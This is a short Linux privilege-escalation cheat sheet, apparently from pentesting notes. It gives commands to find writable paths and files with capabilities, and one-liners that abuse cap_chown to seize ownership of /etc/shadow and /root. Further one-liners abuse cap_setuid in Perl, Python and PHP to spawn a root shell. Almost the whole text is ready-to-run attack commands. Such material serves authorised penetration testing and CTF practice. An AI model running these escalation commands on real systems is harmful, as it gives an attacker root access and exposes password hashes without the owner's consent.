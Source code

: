 <br />

## Writable Directories & Files

```sh
# Writable directories
find / -writable 2>/dev/null | cut -d "/" -f 2,3 | sort -u

# System service files
find / -writable -name "*.service" 2>/dev/null
```

<br />

## Capabilities

To find files that are set capabilities.

```sh
getcap -r / 2>/dev/null
```

### cap_chown

First we need to check the current user id by executing 'id' command.

```bash
id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Then execute the following command to modify the file owner to the current user.  
Replace the attribute numbers with the current user id.

```bash
# Python
python -c 'import os;os.chown("/etc/shadow",33,33)'

# Ruby
ruby -e 'require "fileutils"; FileUtils.chown(33, 33, "/etc/shadow")'
# directories also can be modified.
ruby -e 'require "fileutils"; FileUtils.chown(33, 33, "/root")'
```

### cap_setuid

```bash
# Perl
perl -e 'use POSIX (setuid); POSIX::setuid(0); exec "/bin/bash";'

# PHP
php -r "posix_setuid(0); system('$CMD');"

# Python
python -c 'import os; os.setuid(0); os.system("/bin/bash")'
```
